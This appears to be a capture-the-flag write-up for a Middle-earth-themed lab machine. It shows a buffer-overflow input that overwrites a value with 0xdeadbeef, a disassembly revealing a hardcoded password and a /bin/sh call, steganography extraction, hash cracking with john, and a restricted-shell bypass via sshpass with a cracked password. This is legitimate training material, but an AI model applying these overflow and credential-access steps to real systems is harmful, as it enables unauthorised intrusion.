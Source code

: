 do reversing on extracted file  
file `outpost` is have BoF vulnerability + hardcode flag.
``` bash
orc@mordor:~$ printf '%140s\xef\xbe\xad\xde' | outpost
You arrived the door to escape the outpost.
Many keys are close to you, choose one
key: deadbeef = 0xdeadbeefYou found the key!.
 	flag{8a29aaf5687129c1d27b90578fc33ecc49d069dc}.
 	You gonna try the key on the doorlock!


```

file `door` is have hardcode key + shell function.
```c
...snip...
│           0x00001219      488d35180e00.  lea rsi, str.badpassword    ; 0x2038 ; "badpassword"
...snip...
│       │   0x00001254      488d3d050e00.  lea rdi, str.bin_sh         ; 0x2060 ; "/bin/sh" ; const char *string
│       │   0x0000125b      e8f0fdffff     call sym.imp.system         ; int system(const char *string)
...snip...
```

sha1 for `badpassword` is equal to `8a29aaf5687129c1d27b90578fc33ecc49d069dc`  
testing the backdoor function & bypass restricted shell from rbash.
```bash
You reached the orcs outpost... be quiet
orc@mordor:~$ door 
Enter the right key to unlock the door!
badpassword
You have unlocked the door!
$ /bin/whoami
orc
```
  
found hidden clue in `/whistleblow/Orc.jpg` with exiftool :  
`Psst, little pig, i know what you want! I have hidden information for you`.  
use steghide without password it will extract `whistleblow.txt` file.
```
You want to invade the fortress barad dur. You will got huge trouble, if youre 
noticed by some of the guards. You didn't hear this from me, but there's an 
unguarded entrance to the fortress. The way to that entrace is very dangerous, 
you have to evade the nazguls, they observe every time the area. The big eye is 
watching all time. If you reach the fortess, you have to go behind the fortress 
on the rocks. Go on, before i change my mind.

flag{9e49cb5caf91603db26adb774c6af72c88a6304a}
```
crack the hash with john, found `23lorlorck`  
login with user nazgul but can't access the shell, execute shell command with ssh.  
i try to read the `.bashrc` but there's nothing wrong  
```bash
$ sshpass -p 23lorlorck ssh 10.0.1.9 -l nazgul cat .bashrc
...snip...
echo "" > .bash_history
echo SElJSEhISEhISEhISEhISEhISCEhISEhISEhISEhISwgdGhlIHNjcmVhbSBvZiB0aGUgbmF6Z3VsJ3MuIFRoZXkgd2F0Y2hpbmcgYWxsLCB0aGV5IG93bmVkIGJ5IFNhdXJvbi4uLgpUaGV5IHdhcyBodW1hbnMsIGJlZm9yZSB0aGV5IGZhbGwgdGhyb3VnaCB0aGUgcmluZyBpbnRvIHRoZSBkYXJrbmVzcy4gSWYgdGhleSBzZWUgb25lLCB0aGV5IGtpbGwgaGltIQpCYXJhZCBkdXIgaXMgbmVhci4uLgoK | base64 -d
```
decode the base64 message
```
HIIHHHHHHHHHHHHHHHH!!!!!!!!!!!!, the scream of the nazgul's. They watching all, they owned by Sauron...
```